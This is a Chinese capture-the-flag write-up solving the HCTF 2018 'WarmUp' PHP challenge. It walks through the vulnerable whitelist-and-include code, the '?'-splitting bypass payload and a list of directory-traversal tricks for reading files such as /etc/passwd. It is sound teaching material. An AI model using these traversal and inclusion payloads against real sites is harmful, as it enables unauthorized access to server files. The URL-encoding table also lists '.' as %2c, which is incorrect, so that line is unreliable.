 # [[HCTF 2018]WarmUp](https://buuoj.cn/challenges#[HCTF%202018]WarmUp)

## 解题步骤

1. 创建靶机后，发现打开是一个`笑脸`的图片
2. `开发者工具`中可以看到`source.php`
3. 网址后面加上参数`?file=source.php`，能够得到`source.php`，接下来需要做的就是进行`php代码审计`    

![](./img/source.png)    

4. 代码中最为明显的就是除了`source.php`还有一个`hint.php`    
```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];
```

5. 使用同样的方法查看`hint.php`:`?file=hint.php`      
```
flag not here, and flag in ffffllllaaaagggg
```

![](./img/hint.png)    

得到了`flag`可能存在的位置

6. 对`php`代码进行审计
```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {   # 首先是isset()判断变量是否声明，is_string判断参数是否为字符串
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) { # source.php 和 hint.php是白名单可以直接
                return true;
            }

            $_page = mb_substr(    # mb_substr() 函数返回字符串的一部分
                $page,
                0,
                # 将$_page后拼接.
                mb_strpos($page . '?', '?') # mb_strpos：返回要查找的字符串首次出现的位置
            
            );
            if (in_array($_page, $whitelist)) { # 与白名单进行比对
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?') 
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file']) # file不能为空
        && is_string($_REQUEST['file'])  # 需要是字符串
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];  # 
        exit;
    } else { # 不满足则返回笑脸
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```
7. `include $_REQUEST['file'];`：所有条件满足后，会执行传入的参数，所以想要拿到`flag`需要解决以下两个问题：
    1. 如何绕过这些判断
    2. `flag`如何通过`这个文件`获得
- 其实在这里，突然想到刚刚的`flag not here, and flag in ffffllllaaaagggg`，直接用参数`?file=ffffllllaaaagggg.php`试试，很可惜，不能，只能继续审计代码    
8. 代码的关键在于`_page`变量，代码会取`$_page`中`?`之前的值与白名单进行比对，所以只需要将`ffffllllaaaagggg.php`挂在`source.php`后面,并用`?`分隔，这样`$_page`的值就是`source.php`，能成功绕过白名单比对
```php
?file=source.php?ffffllllaaaagggg.php
```
9. 访问出来的页面为空，但是没有`you can't see it`的输出，说明绕过是成功的，但是`flag`对应的文件可能有问题
10. 通过[其他的writeup](https://blog.csdn.net/qq_36438489/article/details/106090196)发现，是`ffffllllaaaagggg.php`的路径有误，需要通过`../`来逐层查找`ffffllllaaaagggg.php`文件
- 添加`../`的原因是利用[目录穿越漏洞](https://blog.csdn.net/angry_program/article/details/107855078)
    - 目录穿越(Directory Traversal)攻击是黑客能够在Web应用程序所在的根目录以外的文件夹上，任意地存取被限制的文件夹、执行命令或查找数据。
    - 主要是因为后端没有对`../`进行过滤，攻击者可以传入`?filename=../../../etc/passwd`类似参数，从而获取敏感文件
- 目录穿越攻击方法
    1. 利用 ../ 返回上一级来遍历任意文件
    2. 直接使用**绝对路径**，例如`filename=/etc/passwd`
    3. 双写`../`绕过，例如`filename=....//....//....///etc/passwd`。这是因为有些网站的防御措施是直接将`../`替换为空
    4. URL编码绕过。甚至可以采用双重编码
    ```
    .   =>  %2c

    /   =>  %2f

    % => %25  (双重URL编码)
    ```
    5. 绝对路径配合`../`，例如：`/var/www/images/../../../etc/passwd`，因为有些网站会判断路径是否以一个固定的路径开头
    6. 利用`%00`截断文件后缀，例如：`../../../etc/passwd%00.jpg`，因为有些网站会限制后缀
11. 最后的参数应该为：`?file=source.php?/../../../../ffffllllaaaagggg`


## 参考资料

- [攻防世界-warmup_mb_substr()+mb_strpos()绕过](https://blog.csdn.net/qq_36438489/article/details/106090196)
- [目录穿越/遍历漏洞](https://blog.csdn.net/angry_program/article/details/107855078)